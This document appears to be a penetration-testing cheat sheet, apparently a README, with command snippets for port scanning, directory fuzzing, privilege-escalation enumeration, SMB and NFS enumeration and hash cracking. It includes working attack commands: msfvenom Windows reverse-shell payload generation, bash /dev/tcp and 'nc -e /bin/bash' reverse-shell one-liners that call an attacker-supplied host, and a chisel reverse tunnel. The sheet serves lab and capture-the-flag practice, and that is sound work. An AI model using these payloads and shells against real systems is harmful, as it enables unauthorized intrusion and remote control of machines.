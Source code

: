 [GTFOBins](https://gtfobins.github.io/), [LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration), [LinEnum](https://github.com/rebootuser/LinEnum), [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinuxExploitSuggester](https://github.com/mzet-/linux-exploit-suggester), [suider](https://github.com/etc5had0w/suider)

[Sherlock](https://github.com/rasta-mouse/Sherlock), [impacket](https://github.com/SecureAuthCorp/impacket), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

----
## scan ports
```bash
# nmap scan allports, service/version info, script scan
nmap -T4 -sC -sV -p- --min-rate=1000 -oN <FILE> <IP> -Pn

# udp scan top 1000 ports
nmap -sU -sC -sV -vvv <IP> -oN nmap/udp-ports

# scan a port for vuln scripts
nmap -p <PORT> -script vuln <IP>

# masscan all tcp ports
massscan -p1-65535 <IP>
```

## scan local network
```bash
nmap -sn 192.168.1.0/24
arp-scan 192.168.1.0/24
```

## find files
```bash
find / -iname <file>.txt 2>/dev/null # linux
dir <file>.txt /S /B # windows cmd
where /r C:\ <file>.txt
Get-ChildItem -Path C:\ -Filter <file>.txt -Recurse -ErrorAction SilentlyContinue -Force # windows powershell
```

## file/directory scan

```bash
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html --timeout 50s -t 170 -f -o gobsuter

# gobsuter scan php files
gobuster dir -u <IP> -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php

# gobuster scan directory
gobuster dir -u <IP> -w /usr/share/wordlists/dirb/big.txt -t 30
gobuster dir -u <IP> -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -t 30
gobuster dir -u <IP> -w /usr/share/wordlists/seclists//Discovery/Web-Content/raft-medium-directories.txt --timeout 7s -t 50 -f

# dirsearch
dirsearch -u <IP> -w <wordlist>

# ffuf 
ffuf -u <IP>/FUZZ -w <wordlist>

# ffuf subdomain scan
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://website.com/ -H "Host: FUZZ.website.com" -of html -o scans/ffuf.1.html
```

----
## potential priv-esc
```bash
# list allowed sudo commands
sudo -l

# list files capabilities
getcap -r / 2>/dev/null

# find suid / sgid files
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls  -l {} \; 2> /dev/null
```

## windows msfvenom payloads
```bash
# windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

# windows reverse shell uses exploit/multi/handler as listener
msfvenom -p windows/shell/reverse_tcp --platform=win --arch=x86 LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## pentesting smb
```bash
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb

smbmap -H <IP> -u "user -p "pass # give wrong creds
smbclient //<IP>/share

# mount a shared folder
mount -t cifs //x.x.x.x/share /mnt/share
```

## pentesting nfs
```bash
https://vk9-sec.com/2049-tcp-nfs-enumeration/
https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting

# check exposed mounts
showmount -e <IP>
```
## reverse shell
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

nc -e /bin/bash <IP> <PORT>
```
## services
```bash
SNMP
snmp-check <IP>
snmpwalk -v1 -c public <IP> 
```

## etc
```bash
# ssh with public_key
ssh <user>@<server> -i ~/.ssh/id_rsa

# tty shell
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
enter

# check shared objects 
strace <file> 2>&1

# if sudo su not allowed
sudo -s
sudo -i
sudo /bin/bash
sudo password

# metasploit migrate to diff process
migrate <process_id>

# cracking hash with hashcat
hashcat -a -m 400 hashfile /usr/share/wordlists/rockyou.txt

# chisel server -p 3477 --reverse # local
# chisel client <localip:localport> R:8000:127.0.0.1:8000/tcp # remote
```
